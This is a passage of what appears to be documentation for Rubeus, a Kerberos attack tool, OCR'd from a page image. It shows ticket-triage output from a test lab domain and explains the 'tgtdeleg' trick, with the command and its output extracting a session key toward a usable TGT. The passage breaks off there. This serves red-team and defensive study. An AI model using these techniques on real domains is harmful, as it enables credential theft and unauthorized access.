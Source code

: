 
    v1.3.3



    [*] Action: Triage Kerberos Tickets

    [*] Target service  : LDAP

    ---------------------------------------------------------------------------------------------------------
    | LUID    | UserName                   | Service                                  | EndTime             |
    ---------------------------------------------------------------------------------------------------------
    | 0x4420e | harmj0y @ TESTLAB.LOCAL    | LDAP/PRIMARY.testlab.local/testlab.local | 2/7/2019 1:51:35 PM |
    | 0x441d8 | harmj0y @ TESTLAB.LOCAL    | LDAP/PRIMARY.testlab.local/testlab.local | 2/7/2019 1:51:35 PM |
    | 0x3e4   | windows10$ @ TESTLAB.LOCAL | ldap/primary.testlab.local/testlab.local | 2/7/2019 1:51:31 PM |
    | 0x3e7   | windows10$ @ TESTLAB.LOCAL | LDAP/PRIMARY.testlab.local               | 2/7/2019 1:51:30 PM |
    | 0x3e7   | windows10$ @ TESTLAB.LOCAL | ldap/primary.testlab.local/testlab.local | 2/7/2019 1:51:30 PM |
    ---------------------------------------------------------------------------------------------------------


## tgtdeleg

The **tgtdeleg** using [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Kekeo](https://github.com/gentilkiwi/kekeo/) trick (**tgt::deleg**) that abuses the Kerberos GSS-API to retrieve a usable TGT for the current user without needing elevation on the host. AcquireCredentialsHandle() is used to get a handle to the current user's Kerberos security credentials, and InitializeSecurityContext() with the ISC_REQ_DELEGATE flag and a target SPN of HOST/DC.domain.com to prepare a fake delegate context to send to the DC. This results in an AP-REQ in the GSS-API output that contains a KRB_CRED in the authenticator checksum. The service ticket session key is extracted from the local Kerberos cache and is used to decrypt the KRB_CRED in the authenticator, resulting in a usable TGT .kirbi.

    C:\Rubeus>Rubeus.exe tgtdeleg

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.1.0


    [*] Action: Request Fake Delegation TGT (current user)

    [*] No target SPN specified, attempting to build 'HOST/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'HOST/PRIMARY.testlab.local'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: PrrVTn8MgR52epjaG5YnvZMAeCn1TnJn8QfuMh9lvw8=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):
